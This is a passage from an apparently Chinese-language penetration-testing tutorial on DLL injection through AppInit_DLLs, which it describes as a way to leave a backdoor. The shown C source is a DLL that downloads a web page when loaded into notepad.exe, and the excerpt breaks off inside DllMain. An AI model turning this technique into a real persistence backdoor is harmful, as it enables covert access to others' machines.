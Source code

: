 
# 0x03 DLL注入实现——`AppInit_DLLs`

这种在渗透中可以留后门。



## 原理

![image-20240902185107491](./DLL注入/images/image-20240902185107491.png)



## dll编写

> 若当前加载自己的进程为"notepad.exe"，则以隐藏模式运行IE，连接指定网站。

这里就不按教程的写法了，而是直接把先前的dll修改一下，加一个`notepad.exe`的判断

dll:

```c
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

#include<Windows.h>
#include<urlmon.h>
#include<tchar.h>

#pragma comment (lib,"Urlmon.lib")
#define URL (L"https://www.runoob.com")
#define FILENAME (L"C:\\Users\\Administrator\\Desktop\\down2.html")
#define TARGET_PROC (L"notepad.exe")

DWORD WINAPI down(LPVOID lpParam) {
    HRESULT hResult = URLDownloadToFileW(NULL, URL, FILENAME, 0, NULL);
    if (hResult == S_OK) {
        OutputDebugString(L"下载成功！\n");
    }
    else {
        OutputDebugString(L"下载失败！\n");
        return 1;
    }
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
```